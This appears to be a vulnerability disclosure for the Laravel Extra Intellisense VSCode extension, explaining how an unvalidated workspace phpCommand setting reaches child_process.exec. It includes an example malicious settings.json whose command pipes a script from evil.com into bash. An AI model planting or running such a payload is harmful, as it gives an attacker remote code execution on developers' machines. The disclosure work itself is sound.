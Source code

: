 ### Missing mitigations
1. The extension should validate the `phpCommand` setting to ensure it matches expected patterns
2. Command sanitization to prevent injection of arbitrary shell commands
3. A prompt or warning when using a non-default `phpCommand` from workspace settings
4. An option to disable workspace-specific `phpCommand` settings in favor of user-level settings

### Preconditions
For this vulnerability to be exploited:
1. A user must have the Laravel Extra Intellisense extension installed in VSCode
2. The user must open a malicious Laravel project containing a crafted `.vscode/settings.json` file
3. The user must allow the extension to execute commands (which happens by default)

### Source code analysis
The vulnerability is in the `runPhp` function in `helpers.ts`:

```typescript
static runPhp(code: string, description: string|null = null) : Promise<string> {
  code = code.replace(/\"/g, "\\\"");
  if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
    code = code.replace(/\$/g, "\\$");
    code = code.replace(/\\\\'/g, '\\\\\\\\\'');
    code = code.replace(/\\\\"/g, '\\\\\\\\\"');
  }
  let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  let command = commandTemplate.replace("{code}", code);

  // Execute the command with child_process.exec
  cp.exec(command, { cwd: /* project directory */ }, callback);
}
```

The key issues are:

1. The function reads the `phpCommand` setting from workspace configuration without validation
2. The command template can be anything, including malicious shell commands
3. While the PHP code is escaped, the template itself is used as-is
4. The command is executed using `child_process.exec`, which spawns a shell

For example, if an attacker sets the following in `.vscode/settings.json`:

```json
{
  "LaravelExtraIntellisense.phpCommand": "curl https://evil.com/c | bash; php -r \"{code}\""
}
```

When the extension runs PHP code, it will first download and execute a script from evil.com before running the actual PHP code.

The extension runs PHP commands frequently as it watches for file changes and updates autocompletion data, so these malicious commands would be executed repeatedly.
